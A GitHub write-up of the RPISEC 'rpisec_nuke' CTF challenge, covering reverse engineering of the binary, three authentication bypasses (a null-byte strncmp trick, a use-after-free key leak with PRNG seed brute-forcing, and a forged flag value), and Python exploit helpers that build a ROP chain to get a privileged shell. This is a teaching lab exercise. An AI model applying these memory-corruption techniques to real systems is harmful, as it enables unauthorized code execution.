







# rpisec_nuke
This is the second CTF challenge (without counting the lab challenges) that I've ever played. By the time I finished lab09,
I was starting with exams at college so I decided to leave kernel exploitation until I had more spare time to spend in it.
This is why I decided to go with project2 since I already learned all the requirements to solve this challenge.  

## Overview
The first thing I did was to play a bit with the challenge to see how much info I could gather via direct interaction with
it, but apart from telling that it was a **binary bomb** with **three keys** to crack, I couldn't tell much more about it's
internal behaviour.  

<p align="center">
  
</p>

I spent the little spare time I had the following days reversing the challenge with IDA so I could understand more about it.
The first thing I noticed was that the callenge uses a structure to handle it's internal state:  

```c
struct WOPR_state {
    int launch_session; /* stores the launch session # */
    char *key1; /* GENERAL_HOTZ.key */
    char *key2; /* GENERAL_CROWELL.key */
    char *key3; /* GENERAL_DOOM.key */
    /* These values control the key authentication */
    int key1auth; /* 0xCAC380CD */
    int key2auth; /* 0xBADC0DED */
    int key3auth; /* 0xACC3D489 */
    int ready;    /* 0x5ADC1A55 */
    int attempts; /* number of authentication attempts */
    /* Secure channels */
    void *secure_channel1; /* malloc'd size 0x100 bytes */
    void *secure_channel2; /* malloc'd size 0x94 bytes */
    void *secure_channel3; /* malloc'd size 0xc4 */
    /* Nuke86 programming */
    void *nuke86;
}
```

It seems that this nuke launcher is called **WOPR** (nice reference to *WarGames* :P). A quick look at the disassembled code
revealed that when we authenticate properly with the three keys, a new option appears and gives us the ability to program the
warhead. Finally, if we do it properly, we are able to launch it.  

## Keys open doors
The next thing I did was to look how the keys were generated and how they could be cracked. It turns out that they are
pre-generated and stored in three files at the **local directory** of the challenge and then **loaded into the WOPR_state**
structure when it is initialized:

```bash
project2@warzone:~$ ls -la /levels/project2
total 80
drwxr-xr-x  2 root          root      4096 Jun 21  2015 .
drwxr-xr-x 14 root          root      4096 Sep 28  2015 ..
-r--------  1 project2_priv project2    33 Jun 21  2015 GENERAL_CROWELL.key
-r--------  1 project2_priv project2    33 Jun 21  2015 GENERAL_DOOM.key
-r--------  1 project2_priv project2    33 Jun 21  2015 GENERAL_HOTZ.key
-r--------  1 project2      project2   324 Jun 21  2015 README
-r-xr-x---  1 project2_priv project2 56604 Jun 21  2015 rpisec_nuke
```

As I expected, those files can only be read by user **project2_priv**, so I had to reverse the authentication routines to see
how they could be bypassed/cracked.

### General Hotz's key
The first key was easy to bypass. A secure channel is created `the fist time the user attempts to authenticate`:

```c
struct auth1_secure_channel {
    char user_key[0x80]; /* key introduced by user */
    char hotz_key[0x80]; /* General Hotz's key loaded from WOPR_state */
}
```

The bug in this routine was screaming out to be exploited:

```
[...]
call    _fgets ; the program calls fgets([ebp+s], 0x80, stdin)
lea     eax, [ebp+s]
mov     [esp], eax
call    _strlen ; then computes the length of ebp+s with strlen() [1]
sub     eax, 1 ; subtracts 1 from the length
mov     [ebp+var_91], eax ; and loads the result in a local variable
[...]
call    _strncpy ; calls strncpy([ebp+dest], [ebp+s], [ebp+var_91]) [2]
[...]
call    _strlen ; calls strlen([ebp+dest+0x80]) [3]
[...]
call    _strncmp ; strncmp([ebp+dest], [ebp+dest+0x80], eax) [4]
test    eax, eax
[...]
```

It was easy to spot that if I fed **"\x00\n"** to *fgets()*, `[1] would return 0 and [2] would overwrite the secure channel
with 0xffffffff (0-1) zeros`. Then, `[3] would return 0 aswell and [4] would compare 0 characters which will also return 0`
tricking the program into thinking that the key was properly introduced.

<p align="center">

</p>

### General Crowell's key
As in keyauth_one(), this routine creates a secure channel in the first attempt:

```c
struct auth2_secure_channel {
    uint32_t block_size;        /* AES block size */
    uint8_t to_encrypt[0x20];     /* data to encrypt: "KING CROWELL" */
    uint8_t auth2_aes_iv[0x10];   /* static AES IV (copied from global variable) */
    uint8_t crow_key[0x10];       /* General CROWELL's key */
    uint8_t user_key[16];       /* key introduced by the user */
    uint8_t crow_encrypted[32]; /* data encrypted with CROWELL's key */
    uint8_t user_encrypted[32]; /* data encrypted with user's key */
}
```

At first glance, I couldn't find any obvious way of attacking this key. Since I didn't have too much time, I decided to
continue reversing the rest of the challenge to see if there was a way of bypassing this key.  

I was reversing *keyauth_three()* when I noticed a way of setting up a **use-after-free** bug in such a manner that `it can
be leveraged to leak key 2`:
+ *keyauth_three()* `frees the secure channel after allocating it` if we submit an **invalid session number**. This creates
a *dangling pointer* that can be later used.
+ *keyauth_two()* recicles then that pointer when allocating it's secure channel. This means that both *keyauth_three()* and
*keyauth_two()* will access to the same structure.
+ In *keyauth_three()* authentication process, a challenge is generated and then printed on screen. This challenge is generated
in the following way:
  1. An **integer** is read from memory.
  2. That integer is `xor'ed with a pseudo-random integer generated with rand()`
  3. The result is stored in that same location.
  4. Repeat for the next 0xf integers.

It turns out that the challenge buffer is aligned with *to_encrypt*, *auth2_aes_iv* and *crow_key* members of *auth2_secure_channel*,
which means that when the challenge is printed, it will leak General Crowell's key. I just had to reverse the challenge to
retreive the key in plain text.  

#### Cracking the PRNG
In order to reverse the challenge, I had to **crack the seed of the PRNG** so I could replicate the output of rand(). Looking
at the disassembled code I found how the PRNG was seeded:

```
[...]
call    init_WOPR
mov     eax, [esp+24]
mov     esi, [eax]
mov     dword ptr[esp], 0
call    _time
add     eax, esi
mov     [esp], eax
call    _srand ; srand(time(NULL)+WOPR_state->launch_session)
[...]
```

The launch session is printed out in the menu, I just needed the initial time. Since I could control the contents of *to_encrypt*,
I wrote a simple python function to bruteforce the seed, decreasing a "guess time" until the result of xor'ing the challenge
with rand() matched the original values I wrote in *to_encrypt*:

```python
import ctypes, struct
def crack_prng_seed(t, c, s, n=10):
    '''
    t: guess time + session number
    c: challenge string in format XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX.XX
    s: list containing the values in the member to_encrypt
    n: max number of iterations util we decide the seed wasn't found
    '''
    seed = None
    libc = ctypes.CDLL('/lib/i386-linux-gnu/libc.so.6')  # Path to libc inside the VM
    # Convert the challenge in a uint32 list
    chall = []
    cs = ''.join(c.split('.'))
    for i in xrange(4):
        # Swap bytes for endianess and append
        chall.append(struct.unpack('<I', struct.pack('>I', int(cs[8*i:(8*i)+8], 16)))[0])
    # Seed bruteforcing loop
    for x in xrange(n):
        # Reset the current state
        libc.srand(ctypes.c_uint32(t-x).value)
        # Compare against the challenge
        for i in xrange(4):
            if chall[i] ^ libc.rand() != s[i]:
                break  # Incorrect seed
        else:
            seed = ctypes.c_uint32(t-x).value
            break
    return seed
```

With the proper seed, reversing the xor'ed key was a piece of cake.

<p align="center">

</p>

### General DOOM's key
This routine uses this secure channel:

```c
struct auth3_secure_channel {
    int notused;                /* Not important */
    uint8_t challenge[0x40];    /* challenge buffer */
    uint8_t response[0x40];     /* challenge response */
    int flag;                   /* 0x31337 when response is correct */
    /* ... the rest is not interesting ... */  
}
```

This routine generates a challenge for the user that must be answered correctly in order to authenticate with success.

The bug in this routine leverages the **use-after-free** bug that I mentioned earlier. When this routine checks the user
response to the challenge, it sets *flag* to *0x31337* if the response was correct and then it checks that value to determine
if the challenge was propertly answered. Since `this flag is not cleared before validating the response`, we can manipulate
it beforehand by tweaking a bit the auth2_secure_channel, and then authenticate even with an invalid response to the challenge.

With the help of **openssl** we can generate the proper data that, when encrypted with the key we provide, the encrypted
result will set the flag with the right value.

```bash
$ first=$(python -c 'import sys; sys.stdout.write("\x00"*16)' | \
openssl enc -aes-128-cbc -K "00000000000000000000000000000000" -iv "cffaedfedec0addefecabeba0bb0550a" -nosalt -nopad)
$ python -c 'import sys; sys.stdout.write(sys.argv[1]+"\x37\x13\x03\x00"+"A"*12)' | \
openssl enc -d -aes-128-cbc -K "00000000000000000000000000000000" -iv "cffaedfedec0addefecabeba0bb0550a" -nosalt -nopad | hexdump
0000000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0000010 20 0d 6a b9 c0 a8 c9 b3 99 a0 ed 72 ac 8b 46 7c
0000020
```

`**NOTE**: This key can potentially be bypassed by reversing the challenge and response-checking algorithms to generate a
valid response aswell. Since I didn't have much time, I decided to go with the method I described.`

<p align="center">

</p>

## NUKE86 programming
The next step was programming the warhead. After reversing *program_nuke()* I discovered two things:
+ A structure representing **nuke86**

```c
struct nuke86 {
    int checksum;                     /* computed checksum from target_code */
    int n;                            /* instruction pointer */
    uint8_t target_code[0x200];       /* targeting code (instructions) */
    uint8_t target_status[0x80];      /* target status buffer */
    void (*disarm)()                  /* disarm_nuke(), nuke disarming routine */
    void (*detonate)(uint8_t *)       /* detonate_nuke(), nuke detonation routine */
}
```

+ The **checksum computation** algorithm.

```c
for (int i=0; i<0x7f; i++)
    nuke86->checksum ^= ((int *) nuke86->target_code)[i];
```

Then, after reversing *launch_nuke()* I noticed that there was a **set of instructions** to program the warhead with:  

Instruction | Description
:---------: | ----------------------
DOOM | Detonates the nuke on the target specified
DISARM | Disarms the nuke
END | Shuts down nuke86 with a HAL quote :)
I | Increments the target pointer
O | Prints the byte pointed by the target pointer
R | Reprograms the warhead
S | Copies the next byte of the code where the target pointer points

I wrote this class to wrap nuke86 and make it easier to generate code sequences:

```python
class Nuke86(object):
    '''
    This class generates useful code to program and exploit nuke86
    '''
    __slots__ = ['checksum', 'maxsize']

    maxsize = 0x1f8  # Max bytes of code

    def __init__(self, checksum):
        self.checksum = checksum

    def validate(self, code):
        '''
        Makes sure the code is properly checksummed
        '''
        final = code
        cksum = 0
        # Makes sure the size is multiple of 4
        if len(final) % 4 != 0:
            final += '\x00'*(4 - (len(final) % 4))
        # Verifies the length of the code
        if len(final) > self.maxsize:
            final = final[:self.maxsize]
        # Checksums the code
        for x in struct.unpack('<'+'I'*(len(final) / 4), final):
            cksum ^= x
        cksum ^= 0x444e4500
        if cksum != self.checksum:
            final += struct.pack('<I', cksum ^ self.checksum)
        return final

    def detonate(self, target):
        '''
        Generates the code to detonate the nuke on a target
        '''
        if 4 + (2 * len(target)) > self.maxsize:
            raise ValueError('Target name is too long')

        code = ''.join(['S%sI' % x for x in target])
        code += 'DOOM'
        return self.validate(code).encode('hex')

    def leak(self, off, n=4, repro=True):
        '''
        Leaks +n+ bytes from offset +off+ from the target buffer.
        If repro is True, a reprogramming will be requested after the leaking.
        '''
        if ((repro and off + (2*n) - 1 > self.maxsize) or
           (not repro and off + (2*n) > self.maxsize)):
            raise ValueError('Offset too long')

        code = 'I'*off + 'I'.join([x for x in ('O'*n)])
        if repro:
            code += 'R'
        return self.validate(code).encode('hex')

    def pwn(self, pivot, ropchain):
        '''
        Generates the code to execute a ROP chain, a stack pivoting gadget is
        required.
        '''
        # Prepare the ROP chain
        code = ''.join(['S%sI' % x for x in ropchain])
        # Place the pivoting gadget
        code += 'I'*(0x84-len(ropchain))
        code += ''.join(['S%sI' % x for x in struct.pack('<I', pivot)])
        code += 'DOOM'  # Trigger the call to the pivot gadget
        return self.validate(code).encode('hex')
```

### Detonating on GENERAL DOOM
Whit all of this, detonating on any arbitrary target was pretty straight forward:

<p align="center">

</p>

Bye bye General Doom.

## Pwning NUKE86
It was easy to see that I could increment the target poiner beyond the limits of the target buffer with multiple 'I'
instructions. This made leaking the address of *disarm_nuke()* very easy; not only I could read but write anything I wanted
with the instrucion 'S'.  
Being able to read and manipulate the addresses of the functions *disarm_nuke()* and *detonate_nuke()* stored in the structure
was everything a hacker dreams of:  
+ First, I programmed nuke86 to do the following:
    1. **Increment the target status pointer** with 'I' until it pointed to the member *disarm_nuke*.
    2. **Leak disarm() address** printing the contents of the target status pointer.
    3. **Re-program it**.
+ Reading the leaked info I computed the address of **system()**.
+ Last, I entered the new targeting code with the following instructions:
    1. **Insert "/bin/sh" in the traget status buffer** with a combination of 'I' and 'S' instructions.
    2. **Increment the target status pointer** until it reached *detonate_nuke*.
    3. **Overwrite that address with system()'s** with a combination of 'I' and 'S' instructions.  

I was hoping to get the prompt and start writing commands to read the flag. Something unexpected but interesting happened when
I typed `whoami` to verify I gained privileges:

<p align="center">

</p>

It seems that they have `overloaded some libc bootstrap to prevent us from using system()` or something like that so I had to
change the exploitation strategy. My next approach was to `build a ROP chain to execute execve("/bin/sh", NULL, NULL)`:  
+ I used `gadgets found in the elf itself and libc gadgets` so I used the leaked address to compute the **base addresses**
+ Then, I `inserted the ROP chain in the target status buffer` and `change *disarm_nuke()* address for a gadget to pivot
the stack pointer` to the rest of the chain.

<p align="center">

</p>

Ignoring the fact that the output is terribly ugly, the ROP chain worked perfectly. I managed to get a shell with
**project2_priv** privileges and read the flag. Challenge overcome, nuke86 pwned :)  

This challenge was very fun to play with. Even though I didn't have too much time to fully explore this challenge (something
I migth do in the future) I enjoyed it very much.

`After finishing exams, I spend more time working with the exploit code to make it nicer and more automated so I am uploading
everything now to github (I didn't want to leave messy code :P). Thanks to the RPISEC team for making all this awesome stuff
for us to learn and enjoy`
